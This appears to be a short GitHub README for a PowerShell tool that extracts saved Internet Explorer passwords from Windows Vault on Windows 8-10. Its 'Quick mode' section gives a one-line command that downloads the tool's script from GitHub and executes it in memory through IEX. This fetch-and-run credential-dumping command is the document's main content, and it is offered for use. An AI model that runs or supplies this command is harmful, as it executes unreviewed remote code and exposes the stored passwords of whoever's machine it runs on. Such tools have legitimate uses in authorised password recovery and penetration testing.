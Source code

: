 # Get-InternetExplorerPasswords
Get password from Internet Explorer in Windows 8-10 (over "Windows Vault").

# Quick mode
```powershell IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/A888R/Get-InternetExplorerPasswords/master/Get-InternetExplorerPasswords.ps1')```


